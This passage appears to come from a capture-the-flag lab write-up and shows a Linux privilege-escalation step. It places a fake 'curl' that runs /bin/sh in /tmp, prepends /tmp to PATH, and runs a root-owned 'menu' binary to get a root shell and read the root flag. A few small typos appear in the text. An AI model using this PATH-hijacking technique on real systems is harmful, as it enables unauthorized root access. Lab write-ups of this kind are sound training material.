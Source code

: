 We can exploit this by replacing commands e.g. sh instead of curl and then update the $PATH variable:

``` sh
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We can now run```/usr/bin/menu``` again and when selecting #`1` we execute `sh` (instead of curl). We are now rood (run```id```) and can access the final flag:```/cat /root/root.txt```.
